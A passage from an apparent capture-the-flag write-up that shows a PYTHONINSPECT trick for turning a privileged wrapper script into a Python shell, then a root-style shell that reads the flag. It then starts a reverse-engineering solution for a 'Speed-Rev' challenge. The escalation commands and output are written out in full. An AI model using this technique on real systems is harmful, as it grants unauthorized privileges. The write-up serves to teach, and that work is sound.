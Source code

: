 ```text
When a script is passed as first argument or the -c option is used, enter interactive mode after executing the script or the command, even when sys.stdin does not appear to be a terminal. The PYTHONSTARTUP file is not read.
```

In other words, the following happens: when called with this env variable set, the python interpreter, upon exit, opens a python shell. Privileges are kept as is. This means that we get a python shell with user `ezila(1001)`! We can read the flag with `open("flag.txt").read()`, or we can also get a _real_ shell:

```python
$ PYTHONINSPECT=1 ./run-ezila
running /app/ezila.py as uid=1000 (euid=1001)
How do you do.  Please tell me your problem.
> bye
bye
Goodbye.  Thank you for talking to me.
>>> import os
>>> os.setresuid(1001,1001,1001)
>>> os.system("/bin/sh")
$ id
uid=1001(ezila) gid=1000(ctfuser) groups=1000(ctfuser)
$ cat flag.txt
flag{n3v3r_7ru57_a_ch@7b07_t0_cl3@n_th3_3nv1r0nm3n7}
```

## Rev

### Speed-Rev: Bots

In this challenge we were given a remote host and we were asked to complete six levels in three minutes.

Each level we were given a base-64 encoded ELF and we were asked for a "flag".

By looking at the ELFs we can see that this "flag" is validated through the function `validate` which changes for every level. The "flag" looks to be 16 bytes long and it conains only alphanumeric characters.

Since this challenge was pretty much the same as `Speed-Rev: Humans`, this solution can also solve that challenge.

#### Level 1

---

The first level is pretty simple, we can see that the function `validate` is just a simple `strncmp` with an hardcoded string which is randomly generated at each run.

![Level 1 Ghidra](/posts/images/hackpackctf2023_level1_ghidra.png)

By examining the binary with `strings -t d` we can see that the requested string is just 17 bytes before the "%16s" string, so we can just search for that string in the binary and take the 16 bytes we need for our "flag".
